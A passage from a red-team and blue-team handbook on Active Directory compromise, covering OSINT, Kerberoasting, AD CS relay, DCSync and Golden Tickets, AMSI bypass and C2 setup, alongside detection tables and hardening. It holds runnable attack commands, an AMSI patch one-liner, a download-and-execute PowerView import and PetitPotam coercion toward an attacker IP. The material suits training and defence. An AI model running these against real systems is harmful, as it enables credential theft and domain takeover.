- [ ] Tor/Whonix for any `.onion` work; never run dark web tooling on a host that also logs into corporate identity.
- [ ] No CSAM adjacency — hard-stop protocol if any content is encountered (per the gl0bal01 intel-codex SOP [2](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md)).

**Collection checklist (attacker view)**
- [ ] **Network/domain**: WHOIS + reverse WHOIS (WhoXY), certificate transparency (`crt.sh`, Censys `parsed.names:`), passive DNS, Shodan/Censys/LeakIX banners, DMARC posture (`p=none` = spoofable). Maps T1590/T1596 [3](https://attack.mitre.org/techniques/T1596/).
- [ ] **Identity**: email harvest (theHarvester, Hunter.io), breach-DB lookup (HIBP, DeHashed, IntelX, Snusbase), LinkedIn/Twitter Google dorks. Maps T1589.001/.002 [4](https://attack.mitre.org/techniques/T1589/001/).
- [ ] **Tech stack**: EDR/AV/SIEM fingerprinting from job postings, LinkedIn skills, HTTP headers; `nmap -sV`, `httpx -tech-detect`.
- [ ] **Cloud**: S3/bucket hunting with company+acronym wordlists (`awscli`), GitHub secret scan (`truffleHog`), document metadata (FOCA).
- [ ] **Dark web**: stealer-log monitoring for your domain, leak-site tracking (ransomwatch/RansomLook), marketplace/Telegram exposure.

**Validation gate**
- [ ] Each credential/session-cookie finding validated against the target's auth type (managed vs federated via `getuserrealm.srf` / AADInternals) before any spray.
- [ ] All findings hashed and timestamped; evidence archived (WARC + SHA-256) per the dark-web SOP [2](https://github.com/gl0bal01/intel-codex/blob/HEAD/Investigations/Techniques/sop-darkweb-investigation.md).
- [ ] Anything crossing into T1595 (Active Scanning) requires explicit RoE approval — it should be detected.

## 47. Red Team Operator Checklist

This is the day-to-day tradecraft list an operator runs through once inside an engagement, after the testing checklist passes. It is attacker-actionable, mapped to ATT&CK, and paired with the defender view in the next section.

**External recon → initial access**
- [ ] Enumerate the corporate email format from LinkedIn + a leaked database, then confirm it with Microsoft Teams External Access or AADInternals (`Get-Command -Module AADInternals`) [5](https://medium.com/sud0root/mastering-modern-red-teaming-infrastructure-part-4-advanced-osint-techniques-credential-d2a80851a913).
- [ ] Pull breach credentials for the target domain (DeHashed `*@targetcorp.com`, IntelX, Snusbase, h8mail). Build a spray wordlist; note seasonal passwords still work ("Spring2026!" etc.) [6](https://github.com/byoniq/Redteam-Runbook).
- [ ] Confirm auth type: managed (Go365 / AWS API Gateway IP rotation) vs federated (Burp Intruder against ADFS/Okta/PingFederate). Session-cookie logs from stealer markets bypass MFA entirely — prioritize over plaintext passwords [7](https://ransomnews.com/stealer-logs-explained-2026/).
- [ ] Phishing: Gophish (telemetry) + Evilginx (AiTM cookie theft) on a warmed lookalike domain (SPF/DKIM/DMARC). Only FIDO2/passkeys resist cookie replay.

**Internal recon (post-foothold)**
- [ ] `bloodhound-ce-python -d DOMAIN -u USER -p PASS -c DCOnly` (lowest footprint) or `SharpHound.exe -c All --stealth --throttle 5000 --jitter 30` [8](https://www.blackhillsinfosec.com/bloodhound-data-collection/).
- [ ] SPN scanning `(servicePrincipalName=*sql*)` across the Global Catalog — indexed, fast, looks like normal Kerberos [9](https://adsecurity.org/?p=230).
- [ ] `Get-DomainUser -PreauthNotRequired` (AS-REP roastable), `Get-DomainUser -SPN` (Kerberoastable), `Get-DomainUser -AdminCount`, `Get-DomainComputer -UnconstrainedDelegation`.

**Credential access & escalation**
- [ ] `Rubeus.exe kerberoast /rc4opsec` (filters AES accounts, uses tgtdeleg — no LSASS touch) [10](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast); crack `hashcat -m 13100`.
- [ ] `Rubeus.exe asreproast /format:hashcat`; crack `-m 18200`.
- [ ] `certipy find -vulnerable -enabled` → ESC1-16; ESC8 relay chain with PetitPotam + ntlmrelayx.
- [ ] `lsadump::dcsync /user:krbtgt` once replication rights are obtained; Golden/Diamond ticket via Rubeus `diamond /krbkey:... /tgtdeleg`.

**Persistence & C2**
- [ ] Double krbtgt reset is the defender's invalidation move — plan your Golden Ticket window accordingly (10h max ticket lifetime) [11](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password).
- [ ] C2: Sliver (`generate beacon --http`) or Havoc Demon (indirect syscalls, FOLIAGE sleep). Pivot with ligolo-ng (TUN) over chisel (SOCKS).

## 48. Defender / Blue Team Checklist

The mirror image. Each red-team action above has a detection or mitigation. Run this as a posture review, not a one-off audit.

**External surface / credential exposure**
- [ ] Enroll corporate domains in a dark-web / breach monitoring service (HIBP, SpyCloud, Flare, CrowdStrike Falcon Recon+, NetSPI EASM). Correlate newly published stealer logs against Entra/AD accounts within 24-48h — that is the window before access brokers resell [12](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/).
- [ ] Enable Entra ID Protection `leakedCredentials` detection and query it programmatically: `GET .../identityProtection/riskDetections?$filter=riskEventType eq 'leakedCredentials'` [13](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0). Confirm compromised users via `riskyUsers/confirmCompromised`.
- [ ] Deploy the Defender for Identity leaked-credential posture assessment (on-prem AD) and the unified Password protection page (AD/Entra/Okta) [14](https://learn.microsoft.com/en-us/defender-for-identity/password-protection).
- [ ] Enforce breached-password blocklist on-prem via Entra Password Protection DC Agent (NIST SP 800-63B-4 requirement) [15](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf). The global banned list is Microsoft telemetry-derived, not third-party.
- [ ] Enforce phishing-resistant MFA (FIDO2/WebAuthn). Session-cookie replay from stealer logs bypasses push/SMS entirely [7](https://ransomnews.com/stealer-logs-explained-2026/).
- [ ] Audit AD free-text attributes (`description`, `info`, `adminComment`) for plaintext credentials — readable by any authenticated user; Defender AI posture alert "Remove discoverable passwords in AD account attributes" [16](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870).

**Internal detection events**
| Attack | Key Event IDs | Notes |
|---|---|---|
| Kerberoasting | 4769 (etype 0x17 RC4) | Defender for Identity alert 2410 [17](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md) |
| AS-REP roasting | 4771 (pre-auth fail) | Alert 2412; UAC bit 4194304 |
| DCSync | 4662 (mask 0x113f, non-DC) | Alert 2006; MS-DRSR replication rights [18](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315) |
| Golden Ticket | 4768/4769 odd encryption | Alert 2013; krbtgt >180d = posture flag |
| Password spray | 4771/4776 (0x18/0xC000006A), 4625 | 15+ fails / 5+ accounts / 1h = HIGH [19](https://df00tech.com/detections/T1110.004) |
| LSASS dump | Sysmon 10 (0x1410/0x143a) | ASR rule `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2` [20](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) |

**Hardening (NSA/CISA baseline) [21](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)**
- [ ] gMSAs (120-char auto-rotated) or dMSAs (Server 2025) for service accounts; disable RC4 (default in Win11 24H2/Server 2025).
- [ ] Tiered Enterprise Access Model (Tier 0 = DCs/AD CS CA/AD FS/Entra Connect/backups). LAPS, Protected Users group.
- [ ] Disable Print Spooler + SMBv1 on DCs. Enforce SMB signing, LDAP signing+channel binding, EPA on AD CS web enrollment.
- [ ] Reset krbtgt twice (≥10h apart) annually or on suspected compromise [11](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password).
- [ ] MachineAccountQuota=0; `Set-ADAccountControl -AccountNotDelegated:$true` on privileged computer accounts.
- [ ] Deploy canary/honeytoken objects — Event 4662 on read gives high-fidelity Kerberoast/DCSync/SharpHound detection.

**Sentinel / SOAR**
- [ ] Ingest breach intel via content-hub solutions (CybleVision, XposedOrNot, TacitRed) [22](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Cyble%20Vision/Analytic%20Rules/Alerts_Leaked_Credentials.yaml). Pattern: poll dark-web API → Log Analytics custom log → analytics rule → join against SigninLogs.
- [ ] Map Exposure Management attack paths (MACE) from a leaked account to Tier 0 assets for prioritized remediation [23](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856).

## 49. Tooling Overview

The OSINT/dark-web to AD-compromise toolchain spans four layers. Pick one or two per layer; depth beats breadth.

| Layer | Tool | Purpose | ATT&CK |
|---|---|---|---|
| **OSINT — domain/host** | theHarvester | emails, subdomains, hosts from search engines/PGP | T1589/T1590 |
| | recon-ng | modular workspace DB, marketplace modules | T1590 |
| | SpiderFoot | 200+ source automation, web UI | T1590/T1596 |
| | Shodan / Censys / LeakIX | internet-exposure & cert search | T1596.003/.005 |
| | Maltego | link analysis & graph visualization | T1590/T1596 |
| | subfinder / httpx / crt.sh | subdomain + cert-transparency mining | T1590.001 |
| **OSINT — identity/breach** | HaveIBeenPwned | breach-corpus exposure (feeds NIST 800-63B-4 blocklist) | T1589.001 |
| | DeHashed / IntelX / Snusbase | breach-DB aggregators (10-20B records) | T1589.001/.002 |
| | h8mail | CLI credential-hunting across APIs + local dumps | T1589.001 |
| | BridgeKeeper | LinkedIn name → username/email format | T1589.002 |
| | FOCA | document metadata extraction | T1592.004 |
| | truffleHog / GitGuardian | secret scanning in repos (defender side) | T1589.001 |
| **Dark web** | OnionScan | Tor hidden-service OPSEC analysis (mod_status, EXIF, SSH fp) | — |
| | ransomwatch / RansomLook / ransomware.live | leak-site victim tracking over Tor | — |
| | Robin (Cyble) | AI-automated onion search + summarization (DC33) | — |
| | CrowdStrike Falcon Recon+ / NetSPI / Unit 42 | managed dark-web monitoring services | T1586 |
| **AD offensive** | BloodHound / SharpHound | graph attack-path analysis & collector | T1087.002/T1482 |
| | Rubeus (GhostPack) | Kerberos abuse (kerberoast, asreproast, tgtdeleg, tickets) | T1558 |
| | Certipy | AD CS ESC1-16 enumeration & abuse | T1212/T1649 |
| | Mimikatz | LSASS/SAM/LSA/DCSync, PtH, tickets | T1003/T1558 |
| | Impacket | secretsdump, GetUserSPNs, psexec/wmiexec, ntlmrelayx | T1003.003/T1021.002 |
| | NetExec (nxc) | CrackMapExec successor — SMB/WinRM/LDAP/MSSQL spray & dump | T1110/T1046 |
| | PowerView | PowerShell AD enum (ACLs, delegation, sessions) | T1087.002 |
| | PetitPotam / noPac | coercion & sAMAccountName spoofing primitives | T1210/T1068 |
| | ADRecon / PingCastle / Purple Knight | posture reporting (attacker + defender usable) | — |
| **C2 / pivoting** | Sliver / Havoc / Cobalt Strike | implant frameworks (session/beacon, malleable C2) | T1059/T1573 |
| | ligolo-ng / chisel | TUN / SOCKS pivoting | T1090/T1572 |
| | Responder | LLMNR/NBT-NS poisoning & NTLM capture | T1557 |
| | Evil-WinRM | WinRM shell, PtH, in-memory assembly load | T1021.006 |

Flangvik/SharpCollection ships nightly-compiled C# GhostPack tools (Rubeus, Seatbelt, Certify, SharpDPAPI) across .NET 4.0/4.5/4.7 — the practical shortcut since GhostPack releases no binaries [24](https://github.com/Flangvik/SharpCollection).

## 50. Tool Installation

Kali/Parrot ships most of these in apt. On other distros use pipx. Keep offensive tooling off corporate-managed endpoints.

```bash
# --- Kali/Debian apt layer ---
sudo apt update && sudo apt install -y \
  theharvester recon-ng spiderfoot shodan responder \
  netexec evil-winrm ldeep ldap-utils impacket-scripts \
  bloodhound python3-bloodhound certipy-ad

# --- pipx (Python 3.11+) ---
python3 -m pip install --user pipx
pipx ensurepath
pipx install bloodhound-ce           # BloodHound CE Python ingestor
pipx install certipy-ad              # if not via apt
pipx install git+https://github.com/Pennyw0rth/NetExec
pipx install theHarvester
pipx install h8mail
pipx install impacket                # secretsdump.py, psexec.py, ntlmrelayx.py...

# --- C# offensive (no binaries released by GhostPack) ---
# Option A: Flangvik/SharpCollection nightly builds
git clone --depth 1 https://github.com/Flangvik/SharpCollection ~/SharpCollection
# Option B: build Rubeus/Certify yourself (Visual Studio / dotnet)
git clone https://github.com/GhostPack/Rubeus; cd Rubeus; dotnet build -c Release

# --- C2 frameworks ---
curl https://sliver.sh/install | sudo bash          # Sliver (needs mingw-w64 for Win implants)
git clone https://github.com/HavocFramework/Havoc && cd Havoc && make client-build && make ts-build

# --- pivoting ---
# ligolo-ng: download release binaries (proxy + agent) from github.com/nicocha30/ligolo-ng/releases

# --- OSINT APIs ---
shodan init <API_KEY>
# DeHashed/IntelX/Snusbase/Hunter API keys -> h8mail config.ini or tool-specific yaml
```

**Sanity checks**: `nxc --version`, `bloodhound-ce-python --help`, `certipy -version`, `sliver`, `theHarvester -h`. Verify SharpHound version in BloodHound CE UI: Settings → Download Collectors.

**Version notes**: Certipy needs Python 3.12+ [25](https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage). Impacket v0.13.1 supports Python 3.9-3.13. The legacy `bloodhound-python` (v4) and `bloodhound-ce-python` (CE) are distinct packages — install the one matching your BloodHound server. Sliver/Havoc Windows implants need `mingw-w64`.

## 51. Tool Usage Examples

Compact, runnable examples with expected cues. All targets are placeholders.

**OSINT — domain + breach**
```bash
theHarvester -d targetcorp.com -b all -f recon.html
subfinder -d targetcorp.com -silent | httpx -status-code -title -tech-detect
curl -s "https://crt.sh/?q=%25.targetcorp.com&output=json" | jq '.[].name_value' | sort -u
h8mail -t ceo@targetcorp.com -c config.ini -o pwned.csv        # breach creds
shodan download --limit 500 out.json.gz 'org:"Target Corp" port:3389'
```

**Internal recon — BloodHound**
```bash
# Linux, DC-only (no workstation touch, lowest footprint)
bloodhound-ce-python -d corp.local -u jdoe -p 'Pass!' -ns 10.0.0.1 -c DCOnly --zip
# Windows, domain-joined
SharpHound.exe -c All --stealth --throttle 5000 --jitter 30
```
Load the zip into BloodHound CE; import queries from SpecterOps/BloodHoundQueryLibrary [26](https://github.com/SpecterOps/BloodHoundQueryLibrary). Start with "Find All Domain Admins" and "Shortest Paths to Domain Admins".

**Kerberoasting (T1558.003)**
```powershell
Rubeus.exe kerberoast /rc4opsec /outfile:kerb.txt /nowrap
# crack
hashcat -m 13100 kerb.txt rockyou.txt --force
```
Cue: `/rc4opsec` filters AES-enabled accounts (AES hashes are not offline-crackable) and uses `tgtdeleg` so no LSASS access — lower detection surface [10](https://docs.specterops.io/ghostpack-docs/Rubeus-mdx/commands/roasting/kerberoast). Defender signal: Event 4769 with etype 0x17.

**AD CS ESC8 relay chain (T1212)**
```bash
# T1: relay
ntlmrelayx.py -t http://ca.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# T2: coerce DC auth
python3 PetitPotam.py -u jdoe -p 'Pass!' <attacker_ip> dc01.corp.local
# T3: auth as DC
certipy auth -pfx dc.pfx -dc-ip 10.0.0.1
```

**DCSync + Golden Ticket (T1003.006 / T1558.001)**
```bash
secretsdump.py corp.local/jdoe:'Pass!'@10.0.0.1 -just-dc-user krbtgt
Rubeus.exe diamond /krbkey:<krbtgt_nthash> /tgtdeleg /ticketuser:Administrator /groups:512 /ptt
```

**Spraying (T1110.004) — AWS API Gateway IP rotation**
```bash
# Go365 (managed) or Burp Intruder (federated); each request egresses a different AWS IP
nxc smb 10.0.0.0/24 -u users.txt -p 'Spring2026!' --continue-on-success
```
Defender cue: 4771/4776 failures 0x18/0xC000006A across many accounts from one source; 15+ fails/5+ accounts/1h = HIGH [19](https://df00tech.com/detections/T1110.004).

**Dark web monitoring**
```bash
# RansomLook: scrape + parse leak sites over Tor
poetry run scrape && poetry run parse && poetry run screen
# OnionScan: check an onion for OPSEC leaks
onionscan --torProxyAddress 127.0.0.1 --torProxyPort 9050 <onion>.onion
```

## 52. PowerShell Tradecraft

PowerShell is the connective tissue of AD red teaming: PowerView, BloodHound's SharpHound, Rubeus (via `execute-assembly`), Mimikatz wrappers, and in-memory loading all live here. It is also one of the most heavily instrumented surfaces — every command can be logged, and Constrained Language Mode (CLM) plus AMSI gate most imports. Mastering PowerShell tradecraft means knowing both how to run your tools and how Defender sees you.

**In-memory import (avoid disk artifacts)**
```powershell
# PowerView dev branch (3.0 rewrite: Get-DomainUser etc.)
iex (iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing)
# SharpHound from memory via C2 execute-assembly, or local:
Import-Module .\SharpHound.ps1; Invoke-BloodHound -CollectionMethod All --Stealth
```
Note: many EDRs signature the PowerView import string itself. Prefer SharpHound (graph pathfinding) or native `Get-ADUser` cmdlets for vanilla enum; PowerView stays heavily tested in CRTP labs [27](https://github.com/PowerShellMafia/PowerSploit).

**Core enumeration primitives**
```powershell
Get-DomainUser -PreauthNotRequired               # AS-REP roastable (UAC 4194304)
Get-DomainUser -SPN                              # Kerberoastable
Get-DomainUser -AdminCount                       # AdminSDHolder-protected (may be stale)
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-DomainComputer -UnconstrainedDelegation      # T1558.001 pivot targets
Get-DomainUser -TrustedToAuth                    # constrained delegation (S4U2self capable)
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs |
  ? {$_.ActiveDirectoryRights -match 'GenericAll|WriteDacl|WriteOwner|GenericWrite'}
Find-DomainUserLocation -UserGroupIdentity "Domain Admins"   # hunt DA sessions (no admin needed)
```
`Invoke-UserHunter` runs `Get-NetSession` + `Get-NetLoggedon` against every server and needs no admin rights — AD itself becomes the recon sensor [28](https://blog.harmj0y.net/penetesting/i-hunt-sysadmins/).

**SPN scanning (stealthy service discovery)**
```powershell
$forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
$root = [ADSI]("GC://" + ($forest.RootDomain.Name -replace '\.',',DC='))
$s = new-Object System.DirectoryServices.DirectorySearcher($root,"(servicePrincipalName=*sql*)")
$s.PageSize = 500; $s.FindAll()                   # any standard AD user, forest-wide
```
SPN is an indexed attribute — queries return in under a second and look like normal Kerberos client activity [9](https://adsecurity.org/?p=230). Maps T1087.002 / T1018.

**AMSI / CLM bypass (entry ticket)**
```powershell
# AMSI patch (common public variant — fingerprinted by Defender; rotate)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# CLM: if FullLanguage is available via a bypass, else use C#/BOFs to avoid PS entirely
```
Pair with `Bypass-4MSI` in Evil-WinRM for the AMSI patch and in-memory assembly load. See [Bypass Techniques](#bypass-techniques-amsi--clm--scriptblock-logging--defender) for the full bypass matrix.

**Defender view — what gives you away**
- **Script Block Logging** (Event 4104, Microsoft-Windows-PowerShell/Operational): captures de-obfuscated script content even when obfuscated at rest. AMSI feeds it for known-bad patterns. This is the single highest-value PowerShell detection.
- **Module Logging** (4103): pipeline execution details for whitelisted modules.
- **Transcription** (4103/4104 + text files): full session capture if enabled via GPO.
- **CLM**: enforces `ConstrainedLanguage` when Device Guard / WDAC policy active — blocks Add-Type, COM, and most imports. Operators fall back to C# assemblies (`execute-assembly`) or BOFs.
- **Event 4688** process creation with command-line auditing (if enabled) shows `powershell.exe -exec bypass -c IEX...`.

**Mitigation controls**
- Enable Script Block Logging + Module Logging + Transcription via GPO (`Administrative Templates > Windows PowerShell`).
- Deploy WDAC/CLM in enforce mode on Tier 0/1 hosts.
- ASR rule "Block credential stealing from LSASS" (`9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) [20](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) — redundant if Credential Guard / LSA Protected Process Light is on.
- Enable LSA Protection (RunAsPPL) and Credential Guard on Win10+/Server 2016+ to block `sekurlsa::logonpasswords`.
- Sign PowerShell scripts and constrain via AppLocker/WDAC.

**CRTP lens**: PowerView enumeration, Kerberoasting via Rubeus, DCSync via Mimikatz, and Golden Ticket forging are core CRTP (Altered Security ADLab) objectives. Practice them against the lab's nested-OUs and gMSA/delegation configurations, and verify each step against the Defender event table above — the certification rewards understanding both sides of the transaction.## 53. .NET Tradecraft & In-Memory Execution

Modern AD red-team tooling is overwhelmingly .NET-based. Rubeus, Certify, Certipy's .NET peers, Seatbelt, SharpHound, SharpDPAPI, and SharpUp are all C# assemblies targeting .NET 3.5/4.x. The reason is operational: .NET runs inside the CLR (Common Language Runtime), so a single compiled assembly can call Win32 APIs, LDAP, and Kerberos SSPI from one in-memory payload without touching disk. MITRE maps this to T1620 (Reflective Code Loading) and T1055-style process injection when loaders inject the assembly into another process's CLR.

**Loading methods.** The canonical primitive is `Assembly.Load(byte[])`. In Cobalt Strike it is exposed as `execute-assembly /path/to/Rubeus.exe args` — the beacon reads the file on the operator, sends the bytes, and the host calls `Assembly.Load` in the beacon's own (often spawned-and-injected) process. Sliver (`inline-execute`), Havoc Demon (`dotnet inline-execute`), and Evil-WinRM (`Invoke-Binary`) expose the same concept. From raw PowerShell:

```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\temp\Rubeus.exe")
[Reflection.Assembly]::Load($bytes)
[Rubeus.Program]::Main("kerberoast /rc4opsec".Split(' '))
```

This avoids writing the binary to disk (T1027 evasion), but the assembly still lives in the .NET-managed heap of the process and is visible to AMSI and ETW (`Microsoft-Windows-DotNETRuntime`), and to memory scanners.

**OPSEC and detection.**
- AMSI (Anti-Malware Scan Interface) inspects content fed to `Assembly.Load` and to PowerShell script blocks. Bypass techniques are covered in [Bypass Techniques](#bypass-techniques-amsi--clm--scriptblock-logging--defender); the red-team discipline is to patch AMSI in-process before loading, or use a loader that bypasses `AmsiScanBuffer` via a stub.
- ETW (`DotNETRuntime`/`PowerShell`) logs assembly load by name and AppDomain. Attackers patch `EtwEventWrite` (ajpc500/BOFs ETW patch) or use indirect syscalls to silence the provider.
- Constrained Language Mode (CLM) restricts `Assembly.Load` and COM object creation in PowerShell; tooling like SharpView ships a .NET port to escape CLM, or operators move to a C2 `execute-assembly` path that does not traverse the PowerShell engine at all.
- Defender for Endpoint raises `AssemblyLoad` events; Assembly.Name `Rubeus`/`Mimikatz`/`Certify` are high-sigma. Obfuscated builds (ConfuserEx, `dotnet-rebuild` metadata wipe, `InvisibilityCloak`) rename namespaces and strip the manifest to blunt name-based rules.

**Pre-compiled sources.** GhostPack intentionally ships no binaries. Flangvik/SharpCollection publishes nightly compiles against .NET 4.0/4.5/4.7 and x64/x86/AnyCPU for Rubeus, Seatbelt, Certify, SharpDPAPI, SharpHound, SafetyKatz, ForgeCert. Critical: `execute-assembly` accepts **AnyCPU** binaries only — always pick the AnyCPU build. Review any third-party build in dnSpyEx before deployment; SharpCollection itself warns it is for labs/detection mapping, not blind operational use.

**Defender summary.**
| Signal | Source | Action |
|---|---|---|
| `Assembly.Load` of known name | EDR ETW, Defender AssemblyLoad event | Block/alert on Rubeus/Mimikatz/Certify names |
| AMSI scan match | AMSI telemetry | Alert on `AmsiScriptBlockScan` or `AmsiBufferScan` hits |
| Unmanaged -> CLR injection | Sysmon EID 8 / ETW | Flag `clr.dll`/`mscoreei.dll` load in non-.NET host |
| CLM-escape attempts | PowerShell 4104 script block | Alert on `Assembly.Load` under CLM |

Recommended posture: AMSI on, CLM in Constrained mode for non-admins, ScriptBlock Logging enabled, ASR rule 9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2 for LSASS, and a name-allowlist deny on unsigned `Assembly.Load` of offensive namespaces.

References: [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus), [Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection), [TrustedSec CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).

## 54. BloodHound / SharpHound Usage

BloodHound is the standard graph-based AD attack-path analyzer (NSA AD guidance, MITRE T1087.002/T1069.002/T1482). SharpHound is the C# collector; BloodHound.py (dirkjanm) is the Python/Linux equivalent; BloodHound Community Edition (CE, SpecterOps) is the current GUI and query engine.

**Collection.** SharpHound must run as a domain user (directly or `runas /netonly /user:DOMAIN\user cmd.exe`). Collection methods trade footprint for coverage:

```bash
# C# on a domain-joined host - full collection
SharpHound.exe -c All
# Lowest footprint: LDAP only, no workstation touch (evade ATA/ATP)
SharpHound.exe -c DCOnly
# Stealth: reduced LDAP query volume
SharpHound.exe -c All --stealth --throttle 5000 --jitter 30
# Continuous session capture over 3 hours
SharpHound.exe -c Session --Loop --Loopduration 03:00:00
# In-memory, no disk artifact
SharpHound.exe -c All --memcache
```

Python equivalent (Linux, supports PtH `--hashes LM:NT` and Kerberos `-k`):

```bash
pipx install bloodhound-ce
bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c All --zip
bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c DCOnly
```

**Analysis.** Ingest the JSON zip into BloodHound CE. Built-in queries surface shortest paths to Domain Admins, Kerberoastable accounts, AS-REP-roastable users (`DoesNotRequirePreAuth`), unconstrained-delegation hosts, and DCSync-capable principals. The official actively-maintained query library is [SpecterOps/BloodHoundQueryLibrary](https://github.com/SpecterOps/BloodHoundQueryLibrary) (YAML compiled to `Queries.json`); hausec and ZephrFish remain useful for legacy BloodHound 4.x. Custom Cypher example to find users with DCSync rights:

```cypher
MATCH (u:User) WHERE ANY(r IN u.GetDCSyncRights() WHERE r IS NOT NULL) RETURN u.name
```

**OPSEC considerations.** SharpHound is widely signatured by Defender/EDR. Standard evasion: run via `execute-assembly` from a C2 so no disk file lands, build an obfuscated copy (rename namespaces, strip manifest), or use ADExplorer (Sysinternals, not flagged malicious) snapshot converted via ADExplorerSnapshot + BOFHound. PlumHound generates post-engagement CSV/HTML reports from BloodHound data for client deliverables. Many AV/EDR also flag the Python `bloodhound-python` import on Linux C2s only by name in script logs — verify the version via BloodHound CE UI Settings -> Download Collectors before each engagement.

**Defender view.**
| Collection method | Network/Host signal | Detection |
|---|---|---|
| LDAP user/group/ACL queries | Many LDAP searches from one host in seconds | Defender for Identity recon alerts, Event 1644 (slow LDAP query) |
| NetSessionEnum / NetWkstaUserEnum (session collection) | RPC to member servers, Event 4624 type 3 | DF TI "Recon using directory services queries" |
| Local-group enumeration via SMB | SMB `IPC$`/`ADMIN$` enumeration | 5145 detailed share access |
| Canary/honey user read | Event 4662 (DS object read) of canary | High-fidelity DF TI alert — read of a planted canary object almost always indicates SharpHound/Kerberoasting/DCSync |

The single highest-value defensive control is **canary objects**: a decoy user/SPN that emits Event 4662 on read. Any BloodHound collection or SPN scan reads it, producing a near-zero-FP detection of recon (T1087.002). Pair with DF TI's "Suspected DCSync" (alert 2006), Golden Ticket (2013), Kerberoasting (2410), and AS-REP (2412) which consume Kerberos events 4768/4769 captured from DC network traffic/ETW.

References: [SpecterOps/SharpHound](https://github.com/SpecterOps/SharpHound), [dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py), [SpecterOps/BloodHoundQueryLibrary](https://github.com/SpecterOps/BloodHoundQueryLibrary), [BHIS BloodHound collection](https://www.blackhillsinfosec.com/bloodhound-data-collection/).

## 55. Rubeus Usage

Rubeus (GhostPack, [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)) is the C# Kerberos abuse toolkit — the .NET successor to Kekeo. It is built against .NET 3.5 and uses `LsaCallAuthenticationPackage()` and raw Kerberos (port 88) traffic rather than touching LSASS, which lowers one common detection surface (though LSASS access is still needed for some ticket-injection actions). ATT&CK coverage: T1558.003 (Kerberoasting), T1558.004 (AS-REP), T1558.001 (Golden), T1558.002 (Silver), T1550.002 (PtH), T1550.003 (PtT).

**Core operations.**

```bash
# Overpass-the-hash: request a TGT from an NT hash, inject it
Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

# Kerberoast - opsec mode uses tgtdeleg and filters AES-enabled accounts,
# leaving only RC4-capable targets (strongest crackable tickets)
Rubeus.exe kerberoast /rc4opsec /outfile:kerb.txt /format:hashcat

# AS-REP roast accounts with DoNotRequirePreAuth
Rubeus.exe asreproast /format:hashcat /outfile:asrep.txt

# S4U2self + S4U2proxy constrained-delegation abuse with alt-service
Rubeus.exe s4u /user:patsy /rc4:2b576... /impersonateuser:dfm.a \
  /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

# Diamond TGT via tgtdeleg (no DC interaction, no LSASS dump)
Rubeus.exe diamond /krbkey:3111b43b... /tgtdeleg /ticketuser:thor \
  /ticketuserid:1104 /groups:512
```

`tgtdeleg` is the key opsec primitive: it requests a usable TGT for the current user by setting `ISC_REQ_DELEGATE` against a fake unconstrained-delegation service, without elevation and without a DC round-trip — Benjamin Delpy's trick. This TGT then feeds `kerberoast /rc4opsec` and `diamond` ticket forging.

**Cracking.** `hashcat -m 13100 kerb.txt rockyou.txt` (RC4 Kerberoast), `-m 18200` (AS-REP), `-m 19600/19700` (AES128/256). Date-filter with `/pwdsetafter:01-31-2025` to prioritize freshly-set service-account passwords.

**Integration.** Rubeus pairs with Certify/Certipy: Certify requests a certificate, then `Rubeus.exe asktgt /certificate:user.pfx /user:Administrator /domain:corp.local /ptt` obtains a TGT via PKINIT, impersonating arbitrary users including Domain Admins.

